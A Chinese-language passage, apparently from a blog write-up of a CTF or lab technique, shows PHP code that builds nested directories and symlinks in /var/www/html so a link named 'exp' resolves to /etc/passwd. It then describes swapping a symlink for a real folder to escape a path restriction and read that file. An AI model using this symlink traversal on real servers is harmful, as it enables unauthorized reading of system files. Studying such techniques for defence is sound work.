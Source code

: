 这个时候 就处于 var/www/html目录下

然后我们通过软连接链接 abcd

```perl
<?php
mkdir("A");
chdir("A");
mkdir("B");
chdir("B");
mkdir("C");
chdir("C");
mkdir("D");
chdir("D");
chdir("..");
chdir("..");
chdir("..");
chdir("..");
symlink("A/B/C/D","7abc");
?>
```





<img src="https://i-blog.csdnimg.cn/blog_migrate/ffd1b6a3d781db25dec54ee70b61ead9.png" alt="" style="max-height:166px; box-sizing:content-box;" />




这个时候 我们再建立

```perl
symlink("7abc/../../../../etc/passwd","exp");
```

的链接

但是这个我们是无法建立的 因为不存在这种软连接

但是我们只需要 删除 7abc的软连接 然后创建一个 7abc的文件夹

那么这样 就是

```cobol
目录的7abc/../../../etc/passwd
```

这样就不会访问快捷方式的 而是当前目录的 然后访问exp



<img src="https://i-blog.csdnimg.cn/blog_migrate/2c9dd8002e82b8535cc3349009c0ef89.png" alt="" style="max-height:174px; box-sizing:content-box;" />


发现就是passwd里的内容了



<img src="https://i-blog.csdnimg.cn/blog_migrate/c7946d9485708ddb075331cb085365c6.png" alt="" style="max-height:205px; box-sizing:content-box;" />

